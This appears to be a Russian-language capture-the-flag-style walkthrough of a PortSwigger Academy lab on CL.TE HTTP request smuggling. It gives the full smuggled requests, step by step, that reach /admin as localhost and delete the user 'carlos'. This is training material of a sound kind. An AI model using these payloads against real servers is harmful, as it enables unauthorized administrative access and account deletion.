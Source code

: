 Перейдем на уязвимый ресурс, и пропустим эти шаги, по выявлению, что тут CL.TE архитектура фронта и бэка 
сразу воспримем это как факт

чтобы достучаться до директории `/admin` перейдем
```
POST / HTTP/1.1
Host: 0aae004b04e9dd0f8084ee9800a60022.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Transfer-encoding: chunked

0

GET /admin HTTP/1.1
X-Ignore: X
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/6.%20Exploiting%20HTTP%20request%20smuggling%20to%20bypass%20front-end%20security%20controls%2C%20CL.TE%20vulnerability/pics%20for%20walkthrough/1.png)

и второй запрос который посылаем вдогонку 
```
POST / HTTP/1.1
Host: 0aae004b04e9dd0f8084ee9800a60022.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```
выдаем нам 
`HTTP/1.1 401` и говорит, что нам надо быть локальными пользователями
окей, будем
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/6.%20Exploiting%20HTTP%20request%20smuggling%20to%20bypass%20front-end%20security%20controls%2C%20CL.TE%20vulnerability/pics%20for%20walkthrough/2.png)
добавим `Host: localhost` во второй запрос, и изменим длину запроса в первом

```
POST / HTTP/1.1
Host: 0aae004b04e9dd0f8084ee9800a60022.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 54
Transfer-encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
X-Ignore: X
```

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/6.%20Exploiting%20HTTP%20request%20smuggling%20to%20bypass%20front-end%20security%20controls%2C%20CL.TE%20vulnerability/pics%20for%20walkthrough/3.png)

и при отправке второго запроса получаем ошибку
`error":"Duplicate header names are not allowed"`


Это все получается из-за того, что запросы накладываются, и когда мы отправляем, получается следующее
```
POST / HTTP/1.1
Host: 0aae004b04e9dd0f8084ee9800a60022.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 54
Transfer-encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
X-Ignore: XPOST / HTTP/1.1
Host: 0aae004b04e9dd0f8084ee9800a60022.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```
и получается 2 `Host` сразу
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/6.%20Exploiting%20HTTP%20request%20smuggling%20to%20bypass%20front-end%20security%20controls%2C%20CL.TE%20vulnerability/pics%20for%20walkthrough/4.png)

далее, чтобы обойти это, добавим во вторую часть первого запроса `x=`


и получим 
```
POST / HTTP/1.1
Host: 0aae004b04e9dd0f8084ee9800a60022.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 113
Transfer-encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 3

x=
```


`после x= переноса строки нет! это важно!`

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/6.%20Exploiting%20HTTP%20request%20smuggling%20to%20bypass%20front-end%20security%20controls%2C%20CL.TE%20vulnerability/pics%20for%20walkthrough/5.png)
отправим второй обычный запрос, и увидим что у нас отрисовалась админская панель, и перейдя в код увидим, что удалить карлоса можно через путь `/admin/delete?username=carlos`

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/6.%20Exploiting%20HTTP%20request%20smuggling%20to%20bypass%20front-end%20security%20controls%2C%20CL.TE%20vulnerability/pics%20for%20walkthrough/6.png)
Изменим изначальный запрос на 
```
POST / HTTP/1.1
Host: 0aae004b04e9dd0f8084ee9800a60022.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 138
Transfer-encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 3

x=
```

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/6.%20Exploiting%20HTTP%20request%20smuggling%20to%20bypass%20front-end%20security%20controls%2C%20CL.TE%20vulnerability/pics%20for%20walkthrough/7.png)

и после отправки второго запроса получим уведомление об успешено выполненной лабораторной работе
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/6.%20Exploiting%20HTTP%20request%20smuggling%20to%20bypass%20front-end%20security%20controls%2C%20CL.TE%20vulnerability/pics%20for%20walkthrough/8.png)
